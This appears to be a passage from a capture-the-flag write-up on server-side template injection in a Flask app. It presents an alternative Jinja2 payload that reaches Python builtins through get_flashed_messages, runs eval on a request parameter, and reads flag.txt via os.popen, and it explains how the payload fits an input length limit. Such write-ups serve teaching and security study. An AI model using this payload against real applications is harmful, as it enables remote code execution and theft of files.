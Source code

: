#### Alternative payload
Another interesting approach does not use `g.pop` but instead utilizes Flask's `get_flashed_messages` function:
```
name={{get_flashed_messages['__built''ins__'].eval(request.values['a'])}}&a=__import__('os').popen('cat flag.txt').read()&team_name=b
```
Note that in this situation referencing `team_name` in request.values will exceed the input length limit, so we utilize a single letter parameter  `a` instead. The values for `team_name` doesn't matter anymore, so it's just set to b.


